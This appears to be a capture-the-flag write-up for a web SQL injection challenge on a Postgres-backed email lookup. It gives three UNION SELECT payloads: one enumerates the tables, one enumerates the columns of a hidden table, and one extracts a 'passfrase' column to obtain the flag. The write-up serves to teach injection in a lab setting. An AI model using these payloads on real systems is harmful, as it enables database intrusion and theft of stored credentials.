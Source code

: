 # Web: SQLi
Difficulty: Medium/Advanced

In this challenge, you're given a simple user lookup system, where you can input an email and get back a list of usernames. 
You are told that the database is using Postgres and that the website admin made creative table and column names. 

This endpoint is vulnerable to SQL injection. You can get the table names using the following injection (note there must be a space following the -- (is not neccesary for this new command) ):

```
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'--
```

The table name is secret_users_table_sfd33.

You can get the column names using the following query:

```
' UNION SELECT column_name from information_schema.columns WHERE table_name = 'secret_users_table_sfd33'--
```

The columns are: ['computername', 'id', 'email', 'passfrase']

We are probably interested in the "passfrase". 

```
' UNION SELECT passfrase FROM secret_users_table_sfd33--
```

This gets us the flag. 
